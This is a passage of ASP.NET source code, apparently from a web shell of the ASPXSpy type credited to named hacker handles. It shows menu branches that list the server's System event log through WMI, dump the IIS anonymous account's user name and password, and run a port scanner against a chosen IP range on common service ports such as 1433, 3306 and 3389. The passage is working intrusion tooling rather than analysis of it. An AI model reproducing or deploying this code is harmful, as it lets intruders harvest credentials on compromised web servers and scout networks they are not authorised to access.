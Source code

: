 	case "syslog"
%>
<form runat="server">
	<p align=center>[ List System Event Log Entries ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
	<table align=center>
		<tr>
			<td>
			<% 
				dim WMI_function = "Win32_NTLogEvent where Logfile='System'"		
				dim Fields_to_load = "Logfile,Message,type"
				dim fail_description = " Access to " + WMI_function + " is protected"
				
				Try
				output_wmi_function_data_instances(WMI_function,Fields_to_load,2000)
				Catch
				rw("This function is disabled by server")
				End Try
			%>
			</td>
		</tr>
	</table>
</form>
<%
	case "auser"
%>
<form runat="server">
	<p align=center>[ IIS List Anonymous' User details ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
	<table align=center>
		<tr>
			<td>
			<% 
				Try
				IIS_list_Anon_Name_Pass
				Catch
				rw("This function is disabled by server")
				End Try
			%>
			</td>
		</tr>
	</table>
</form>
<%
	case "scan"
%>
	<form runat="server">
    <p>[ ASP.NET Port Scanner ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
    <div>
    	C# coded by Hackwol & Lenk, VB coded by kikicoco (19/08/2008)<br /><br />
        Start IP :&nbsp;&nbsp;<asp:TextBox ID="txtStartIP" runat="server" Width="177px">127.0.0.1</asp:TextBox>
        &nbsp;&nbsp; &nbsp; --- &nbsp;End Ip : &nbsp;<asp:TextBox ID="txtEndIP" runat="server" Width="185px">127.0.0.1</asp:TextBox>&nbsp;
        <br />
        Ports &nbsp;&nbsp;&nbsp;:&nbsp;&nbsp;<asp:TextBox ID="txtPorts" runat="server" Width="473px">21,25,80,1433,3306,3389</asp:TextBox><br />
        <br />
        <asp:Button ID="btnScan" runat="server" Text="Scan" Width="60px" Font-Bold="True" ForeColor="MediumBlue" BorderStyle="Solid" OnClick="btnScan_Click" />
        &nbsp;&nbsp;
        <asp:Button ID="btnReset" runat="server" Text="Reset" Width="60px" Font-Bold="True" ForeColor="MediumBlue" BorderStyle="Solid" OnClick="btnReset_Click" /><br />